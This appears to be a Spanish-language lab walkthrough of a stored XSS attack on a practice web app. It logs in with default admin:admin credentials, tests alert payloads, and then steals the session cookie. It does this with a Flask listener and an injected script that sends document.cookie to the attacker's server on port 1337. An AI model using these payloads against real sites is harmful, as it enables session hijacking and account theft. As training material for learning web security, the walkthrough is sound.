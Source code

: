 Tenemos la siguiente web:
![[Pasted image 20240728092931.png]]
Si ponemos admin:admin estaríamos dentro:
![[Pasted image 20240728093109.png]]
Vemos que es vulnerable a XSS:
```linux
<script>alert('XSS');</script>
```
![[Pasted image 20240728093242.png]]
Y mediante este ataque podemos obtener la cookie de sesión de la suguiente forma:
```admin
<script>alert(document.cookie);</script>
```
![[Pasted image 20240728093458.png]]
Además, dentro del almacenamiento en el navegador, podemos visualizar esta cookie de forma manual:
![[Pasted image 20240728093541.png]]
Para recibir esta cookie desde nuestro equipo atacante, podemos levantar un servidor web con python:
```python
from flask import Flask, request, url_for, render_template, redirect, make_response
import requests

app = Flask(__name__, static_url_path='/static', static_folder='static')
app.config['DEBUG'] = True

@app.route("/<steal_cookie>", methods=['GET'])
def start(steal_cookie):
    return render_template("evil.html")

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=1337)
```
Entonces hecho esto, en la web ejecutamos el siguiente payload:
```bash
<script>
  new Image().src = "http://localhost:1337/?stolen_cookie=" + document.cookie;
</script>
```
![[Pasted image 20240728093826.png]]
Y esta cookie nos habrá llegado:
![[Pasted image 20240728093858.png]]
